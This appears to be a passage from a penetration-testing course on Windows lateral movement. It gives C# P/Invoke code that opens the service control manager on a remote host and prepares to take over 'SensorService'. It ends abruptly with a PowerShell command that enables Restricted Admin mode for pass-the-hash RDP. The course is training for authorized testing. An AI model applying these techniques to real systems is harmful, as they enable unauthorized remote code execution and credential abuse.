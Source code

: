 ```
using System;
using System.Runtime.InteropServices;

namespace lat
{
    class Program
    {
        [DllImport("advapi32.dll", EntryPoint="OpenSCManagerW", ExactSpelling=true, CharSet=CharSet.Unicode, SetLastError=true)]
    public static extern IntPtr OpenSCManager(string machineName, string databaseName, uint dwAccess);

        static void Main(string[] args)
        {
            String target = "appsrv01";
            
            IntPtr SCMHandle = OpenSCManager(target, null, 0xF003F);
        }       
    }
}
```

> Listing 30 - Initial proof of concept to authenticate

Once the authentication is complete, we must open an existing service. To avoid any issues, we must select a service that is not vital to the function of the operating system and is not in use by default.

One candidate is _SensorService_,[3](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_538-3) which manages various sensors. This service is present on both Windows 10 and Windows 2016/2019 by default but is not run automatically at boot.

The API we need to use is _OpenService_, which has the following function prototype:

```
SC_HANDLE OpenServiceW(
  SC_HANDLE hSCManager,
  LPCWSTR   lpServiceName,
  DWORD     dwDesiredAccess
);
```

> Listing 31 - Function prototype for OpenServiceW

As the first argument (_hSCManager_), we must supply the handle to the service control manager we received from _OpenSCManager_. The second parameter (_lpServiceName_) is the name of the service ("SensorService") and the last argument (_dwDesiredAccess_) is the desired access to the service.

We can request full access (_SERVICE\_ALL\_ACCESS_), which has a numerical value of 0xF01FF. To continue, we'll locate the P/invoke import for _OpenService_[4](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_538-4) as shown in Listing 32.

```
[DllImport("advapi32.dll", SetLastError=true, CharSet=CharSet.Auto)]
static extern IntPtr OpenService(IntPtr hSCManager, string lpServiceName, uint dwDesiredAccess);
```


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit